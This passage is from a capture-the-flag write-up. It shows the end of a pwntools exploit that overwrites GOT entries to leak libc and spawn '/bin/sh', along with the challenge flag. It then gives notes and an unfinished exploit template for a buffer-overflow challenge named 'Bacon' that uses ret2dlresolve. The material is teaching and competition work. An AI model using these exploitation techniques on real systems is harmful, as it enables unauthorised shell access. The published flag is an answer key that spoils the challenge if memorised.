 ```py
io.recvuntil('write to?\n')
io.sendline(hex(exe.got['exit']))
io.recvuntil('write?\n')
io.sendline(hex(exe.sym.main))
libc_base = int(io.recvn(14),0) - 0x0e5be0

io.recvuntil('write to?\n')
io.sendline(hex(exe.got['strtoull']))
io.recvuntil('write?\n')
io.sendline(hex(libc_base+0x0554e0))

io.recvuntil('write to?\n')
io.sendline('/bin/sh\x00')
io.interactive()
#flag{one_write_two_write_good_write_bad_write}
```

## Bacon
points - 200
A breakfast isn't complete without bacon.

Connect with:
nc jh2i.com 50032

This was again yet anthor bufferoverflow, no-libc provided, no printfunction in the binary, NO-PIE, part-Relro, so i used ret2_dlresolve, There are lots of resources available for ret2_dlresolve.

#### exploit
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./bacon')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50032)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

# -- Exploit goes here --
```
